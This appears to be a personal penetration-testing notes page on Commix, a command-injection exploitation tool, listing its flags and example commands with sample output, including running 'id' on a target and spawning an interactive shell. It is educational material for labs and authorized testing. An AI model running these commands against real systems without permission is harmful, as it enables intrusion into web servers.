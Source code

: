#### Official Documentation: [https://github.com/commixproject/commix](https://github.com/commixproject/commix)
#### Cheat Sheet: [[Kali Tools#Commix|Commix Commands]]
## Purpose
Commix (Command Injection Exploiter) is an automated tool to test and exploit command injection vulnerabilities in web applications.

## Scenarios
- CTF: Automatically test parameters that may be vulnerable to OS command injection and attempt exploitation to get a reverse shell or run commands.  
- Real world: Quickly verify suspected injection points, but always confirm and exploit manually for safety and precision.

## All needed info to run
- Target URL with injectable parameter (GET or POST).  
- Optional proxy support (`--proxy`) to route via Burp.  
- Common flags:
  - `-u <url>` → target URL  
  - `--data="<postdata>"` → POST data  
  - `--os-cmd=<cmd>` → run a single OS command  
  - `--dump` → attempt to dump file(s)  
  - `--technique=<tech>` → choose technique (e.g., classic, bash)  
  - `--proxy=http://127.0.0.1:8080` → route through proxy  
  - `--level`, `--risk` → adjust tests
- Network access to the target and permission to test.

## Example commands & outputs
```bash
# Basic test against a GET parameter
$ commix -u "http://192.168.56.101/vuln.php?cmd=test" --batch
# Output snippet:
# [INFO] Testing 'cmd' parameter...
# [VULNERABLE] The target is vulnerable to command injection (application/OS)
# [INFO] Type 'shell' to spawn interactive shell, 'quit' to exit.

# Run a single OS command
$ commix -u "http://example.com/vuln.php?cmd=test" --os-cmd="id"
# Output:
# uid=33(www-data) gid=33(www-data) groups=33(www-data)

# Use proxy to inspect traffic
$ commix -u "http://example.com/vuln.php?cmd=test" --proxy=http://127.0.0.1:8080 --batch
```

!!! note "Commix Basics"
	- Commix automates exploitation — use `--batch` to skip prompts if you know what you want.
	- Always confirm findings manually; automated exploitation can be noisy or unsafe.
	- Use `--proxy` to route through Burp and inspect payloads.
	- Get authorization before testing public/third-party sites.


### [[Kali Tools#Commix|Commix Commands]]